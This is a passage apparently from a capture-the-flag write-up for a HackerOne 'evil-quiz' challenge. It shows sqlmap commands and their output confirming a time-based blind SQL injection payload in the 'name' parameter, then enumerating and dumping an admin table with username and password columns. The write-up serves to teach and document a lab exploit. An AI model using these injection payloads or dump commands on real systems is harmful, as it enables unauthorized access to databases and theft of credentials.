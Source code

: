 **Request**

python sqlmap.py -r exploit.txt -p name --second-url="https://hackyholidays.h1ctf.com/evil-quiz/score" -T admin -D quiz --columns

**Response**

{F1139598}

```
Parameter: name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=hello' AND (SELECT 7752 FROM (SELECT(SLEEP(5)))EvEg) AND 'jenU'='jenU
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
Database: quiz
[2 tables]
+-------+
| admin |
| quiz  |
+-------+

Database: quiz
Table: admin
[3 columns]
+----------+
| Column   |
+----------+
| id       |
| password |
| username |
+----------+

```
+ For admin, we got columns as id, username, and password.

+ Final command will dump the information.

**Request**

python sqlmap.py -r exploit.txt -p name --second-url="https://hackyholidays.h1ctf.com/evil-quiz/score" -T admin -D quiz --dump

**Response**

{F1139603}

```
Parameter: name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=hello' AND (SELECT 7752 FROM (SELECT(SLEEP(5)))EvEg) AND 'jenU'='jenU
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
Database: quiz
[2 tables]
+-------+
| admin |
| quiz  |
+-------+

Database: quiz
Table: admin
[1 entry]
```